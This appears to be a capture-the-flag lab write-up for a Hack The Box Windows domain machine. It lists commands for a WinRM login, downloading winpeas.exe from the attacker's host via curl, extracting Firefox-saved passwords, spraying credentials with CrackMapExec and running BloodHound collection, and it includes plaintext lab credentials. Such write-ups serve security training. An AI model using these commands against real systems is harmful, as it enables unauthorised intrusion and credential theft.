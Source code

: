 `evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com`

![[Pasted image 20250107205301.png]]
Using #winpeas for privilege escalation

https://github.com/peass-ng/PEASS-ng/releases/tag/20250106-5a706ae2

Can download WinPEASany.exe to www directory.

From evilwinrm shell run:

`curl 10.10.14.8/winpeas.exe -o winpeas.exe`

Execute `.\winpeas.exe`

Found out there's firefox creds

![[Pasted image 20250107210128.png]]
Try running Sharpweb

https://github.com/djhohnstein/SharpWeb/releases

This tool is too outdated so manually checking the firefox profiles. 

![[Pasted image 20250107210604.png]]

Use #firepwd to extract firefox passwords. 

https://github.com/lclevy/firepwd

Running #CrackMapExec to spray passwords from Firefox to get JDGodd's password

`cme smb 10.10.11.158 -u users.txt -p pw.txt --no-bruteforce --continue-on-success`

![[Pasted image 20250108203020.png]]

No results from this query. Going to test out the username `JDGodd` with every password.

`cme smb 10.10.11.158 -u JDGodd -p pw.txt`

![[Pasted image 20250108203202.png]]

Got a login (no pw3ned = not an admin)

`JDGodd: 1Dg0dd1s@d0p3cr3@tOr`

![[Pasted image 20250108203320.png]]

Running #Bloodhound 

Running #pythonbloodhoundingestor first (from attacker box)

https://github.com/dirkjanm/BloodHound.py

`python3 bloodhound.py -d streamio.htb -u JDGodd -p 'JDg0ddls@d0p3cr3@tOr' -gc dc.streamio.htb -ns 10.10.11.158 -c all --zip`

![[Pasted image 20250108203738.png]]
Start #neo4j 
